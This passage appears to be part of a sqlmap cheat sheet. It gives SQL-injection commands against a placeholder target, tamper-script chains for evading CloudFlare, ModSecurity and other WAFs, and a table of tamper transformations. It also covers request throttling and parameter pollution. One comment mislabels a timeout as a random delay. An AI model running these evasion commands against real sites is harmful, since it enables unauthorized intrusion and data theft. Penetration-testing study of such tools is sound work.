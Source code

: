     # Common WAF bypass tampers
    python sqlmap.py -u "http://target.com/page?id=1" \
      --tamper=between,randomcase,space2comment

    # CloudFlare bypass
    python sqlmap.py -u "http://target.com/page?id=1" \
      --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes

    # ModSecurity bypass
    python sqlmap.py -u "http://target.com/page?id=1" \
      --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
:::
:::

### Popular Tamper Scripts

  Tamper Script     Purpose                        Example Transformation
  ----------------- ------------------------------ -----------------------------
  space2comment     Replace spaces with comments   SELECT/\*\*/FROM/\*\*/users
  randomcase        Randomize character case       SeLeCt \* FrOm UsErS
  between           Replace equals with BETWEEN    id BETWEEN 1 AND 1
  charencode        URL encode characters          %53%45%4C%45%43%54
  base64encode      Base64 encode payload          U0VMRUNUKg==
  equaltolike       Replace = with LIKE            username LIKE \'admin\'
  space2plus        Replace spaces with +          SELECT+\*+FROM+users
  unionalltounion   Replace UNION ALL with UNION   UNION SELECT

### Request Manipulation

::: code-block
    # Custom delay between requests
    python sqlmap.py -u "http://target.com/page?id=1" --delay=3

    # Random delay (1-3 seconds)
    python sqlmap.py -u "http://target.com/page?id=1" --delay=1 --timeout=3

    # Reduce thread count
    python sqlmap.py -u "http://target.com/page?id=1" --threads=1

    # HTTP parameter pollution
    python sqlmap.py -u "http://target.com/page?id=1" --hpp
